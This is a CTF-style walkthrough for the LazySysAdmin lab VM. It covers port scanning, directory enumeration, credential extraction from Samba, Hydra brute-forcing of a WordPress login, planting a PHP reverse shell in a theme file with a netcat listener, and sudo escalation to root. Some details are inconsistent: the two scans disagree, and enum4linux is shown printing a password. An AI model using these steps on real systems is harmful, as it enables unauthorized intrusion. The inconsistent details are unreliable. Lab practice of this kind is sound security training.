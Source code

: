 # LazySysAdmin: 1 Walkthrough
## **Prerequisites**
Before starting, ensure the following:

1. **LazySysAdmin VM**: Running on VMware or a similar hypervisor.
2. **Attacking Machine**: A penetration testing OS like Kali Linux.
3. **Knowledge**: Basic familiarity with Linux and penetration testing tools.

---

## **1. Network Configuration and Target Discovery**
Ensure both the LazySysAdmin VM and the attacking machine are on the same network. To discover the target's IP address, perform a network scan using `nmap`:

```bash
nmap 192.168.48.1/24
```

### **Sample Output:**
```plaintext
Nmap scan report for 192.168.48.170
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)
```

The target IP address is **192.168.48.170**, with SSH (port 22) and HTTP (port 80) open.

---

## **2. Bind Target IP to a Domain Name**
To simplify referencing the target, bind its IP address to a domain name in your `/etc/hosts` file:

```bash
sudo nano /etc/hosts
```

Add the following line:
```plaintext
192.168.48.170 lazysysadmin.com
```

Verify the changes:
```bash
cat /etc/hosts
```

### **Expected Output:**
```plaintext
127.0.0.1 localhost
192.168.48.170 lazysysadmin.com
```

---

## **3. Service Enumeration**
Perform a detailed scan to identify running services and their versions:

```bash
nmap -sV 192.168.48.170
```

### **Sample Output:**
```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql   MySQL 5.7.12-0ubuntu1
6667/tcp open  irc     InspIRCd 2.0
```

The target is running several services, including **SSH**, **HTTP**, **Samba**, **MySQL**, and **IRC**.

---

## **4. Enumerating HTTP Services**
Visit the web application hosted on port 80 by navigating to:

```plaintext
http://lazysysadmin.com/
```

Analyze the site for potential vulnerabilities. Use **Gobuster** to enumerate directories:

```bash
gobuster dir -u http://lazysysadmin.com/ -w /usr/share/wordlists/dirb/common.txt
```

### **Sample Output:**
```plaintext
/info.php (Status: 200)
/phpmyadmin (Status: 301)
/wordpress (Status: 301)
```

The `phpmyadmin` and `wordpress` directories are potential targets for further investigation.

---

## **5. Gaining Access to MySQL Database**
Visit `http://lazysysadmin.com/phpmyadmin`. After attempting to log in, an error indicates that the connection to the MySQL server failed. This suggests further investigation is required.

Using **enum4linux** or **smbmap**, extract credentials from the Samba service running on port 139:

```bash
enum4linux 192.168.48.170
```

### **Sample Output:**
```plaintext
username: Admin
password: TogieMYSQL12345^^
```

Log in to phpMyAdmin with these credentials:

```plaintext
http://lazysysadmin.com/phpmyadmin
```

---

## **6. Exploring the WordPress Site**
Access the WordPress site at:

```plaintext
http://lazysysadmin.com/wordpress
```

Use **wpscan** to enumerate vulnerabilities and user accounts:

```bash
wpscan --url http://lazysysadmin.com/wordpress --enumerate u
```

### **Sample Output:**
```plaintext
[+] Enumerating Users...
[+] Found User: admin
```

Attempt to brute-force the password for `admin` using **Hydra** or **rockyou.txt**:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt lazysysadmin.com http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:Invalid password'
```

After retrieving the password, log in to WordPress to check for file upload vulnerabilities.

---

## **7. Gaining Reverse Shell**
Upload a PHP reverse shell to the WordPress theme editor (e.g., `comments.php`). Use the reverse shell located at `/usr/share/webshells/php/php-reverse-shell.php`:

1. Modify `$ip` and `$port` in the script to match your attacking machine.
2. Paste the script into the theme file.
3. Start a Netcat listener on your attacking machine:

```bash
nc -v -l -p 1234
```

4. Trigger the reverse shell by visiting the modified page.

After obtaining a shell, upgrade it to a fully interactive TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## **8. Privilege Escalation**
### Escaping a Restricted Shell
If the shell is restricted (e.g., `rbash`), use the following techniques:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Alternatively, use `vi`:

```plaintext
:set shell=/bin/sh
:shell
```

### Gaining Root Access
Run the following command to check for `sudo` privileges:

```bash
sudo -l
```

### **Sample Output:**
```plaintext
User togie may run the following commands on this host:
(root) ALL
```

Execute:

```bash
sudo su
```

You now have root access. Navigate to `/root` to retrieve the flag.

---

## **9. Concluding Remarks**
This walkthrough demonstrates enumeration, exploitation, and privilege escalation techniques on the LazySysAdmin VM. Always ensure you have explicit permission before testing any system.

For further practice, consider revisiting services like MySQL, Samba, and WordPress to explore additional attack vectors.


